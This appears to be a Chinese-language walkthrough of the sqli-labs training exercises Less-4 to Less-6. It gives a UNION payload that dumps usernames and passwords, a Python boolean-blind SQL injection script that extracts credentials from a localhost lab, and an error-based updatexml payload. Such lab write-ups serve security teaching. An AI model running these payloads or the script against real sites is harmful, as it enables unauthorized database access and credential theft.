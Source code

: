 ## Less-4（")双引号+括号闭合字符型）

```sql
?id=-1") union select 1,group_concat(0x7e,username,0x7e),group_concat(0x7e,password,0x7e) from users where id =15%23
```

## Less-5  (报错注入，bool盲注)

报错注入简单不提，这里写一个bool盲注脚本提取flag:



```python
import requests
url = "http://127.0.0.1/sqli-labs/Less-5/?id=1'"

cookies = {       # 如果目标网站要事先登录，就加上cookies
    "PHPSESSID":"xxxxxxxxx"
}
flag = ''
for i in range(1,49):
    low = 32
    high = 128
    mid = (low+high)//2
    while(low<high):
        #payload1 = url + " and ascii(substr(database(),{},1))>{}%23".format(i, mid)
        #payload2 = url + " and ascii(substr((select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}%23".format(i, mid)
        #payload3 = url + " and ascii(substr((select 1,2,group_concat(column_name) from information_schema.columns where table_name=users),{},1))>{}%23".format(i, mid)
        payload4 = url + " and ascii(substr((select group_concat(username,password) from users where id = 15),{},1))>{}%23".format(i, mid)
        res = requests.get(url=payload4)

        if 'You are in' in res.text:      # 为真时，即判断正确的时候的条件
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if(mid == 32 or mid == 127):
        break
    flag = flag+chr(mid)
    print(flag)
```

## Less-6   ("双引号闭合bool盲注、报错注入)

**报错注入payload：**

```python
?id=1" and updatexml(1,concat(0x7e,(select user()),0x7e),1)%23
```
